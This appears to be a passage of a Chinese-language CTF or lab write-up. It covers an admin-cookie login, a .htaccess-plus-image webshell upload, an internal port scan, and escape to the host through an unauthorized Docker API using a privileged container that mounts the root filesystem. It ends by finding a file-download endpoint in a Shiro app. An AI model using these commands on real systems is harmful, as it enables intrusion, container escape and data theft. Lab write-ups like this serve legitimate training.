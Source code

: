 拿到管理员cookie登录，访问dashboard.php

还是feedback.html 文件上传.htaccess+jpg马，连接蚁剑拿到flag

### flag2

内网扫描

```
172.18.16.200:22open
172.18.16.100:22open
172.18.16.88:22open
172.18.16.2:53open
172.18.16.88:80open
172.18.16.100:80open
172.18.16.100:631open
172.18.16.200:8000open
172.18.16.88:22375open
172.18.16.200:28010open
172.18.16.100:28010open
172.18.16.88:28010open
[*] WebTitle: http://172.18.16.100      code:200len:1304   title:index
[*] WebTitle: http://172.18.16.88       code:200len:6      title:None
[*] WebTitle: http://172.18.16.88:22375 code:404len:29     title:None
[*] WebTitle: https://172.18.16.200:8000 code:302len:0      title:None 跳转url: https://172.18.16.200:8000/auth?next=%2F
[+] http://172.18.16.88:22375 poc-yaml-docker-api-unauthorized-rce 
```

docker-api未授权

```
docker -H tcp://172.18.16.88:22375  run --privileged=true -it -v /:/tmp web /bin/bash
ccat /tmp/flag.txt
```

挂载宿主机目录即可拿到第二个flag，写个公钥可以用私钥ssh

## 数据管理系统

### flag1

8080是一个shiro框架，尝试爆破key无果

开始查看js找接口，尝试未授权

这里有好几个接口，测试发现`/file/download?path=`可以进行文件下载
